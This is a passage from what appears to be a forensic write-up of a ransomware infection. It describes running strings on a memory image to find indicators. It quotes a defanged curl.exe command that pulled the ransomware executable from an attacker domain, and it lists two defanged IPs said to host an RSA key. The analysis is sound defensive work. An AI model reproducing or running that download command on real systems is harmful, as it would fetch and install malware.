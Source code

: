 In the results we identified the string that downloads the ransomware, confirming our earlier findings from dynamic analysis.

`curl.exe hXXps://cnd777[.]co/serv.exe -o serv.exe --ssl-no-revoke`

### Strings
“Always run strings, man” - [Joseph Ten Eyck](https://twitter.com/joseph_teneyck)

![did you run strings?](/20200607_AUCR_Spring_2020/images/17.png "did you run strings?")

We converted the memory image to strings and grepped for interesting strings. The first was cnd777 which revealed the command executed on the infected computer to pull down the malware:
 
![grep cnd777 strings screenshot](/20200607_AUCR_Spring_2020/images/18.png "grep cnd777 strings screenshot")

Searching for logo.jpg revealed the two IPs that were hosting the RSA key, 34.65.41[.]144 and 35.228.94[.]72:

![grep logo.jpg strings screenshot](/20200607_AUCR_Spring_2020/images/19.png "grep logo.jpg strings screenshot")
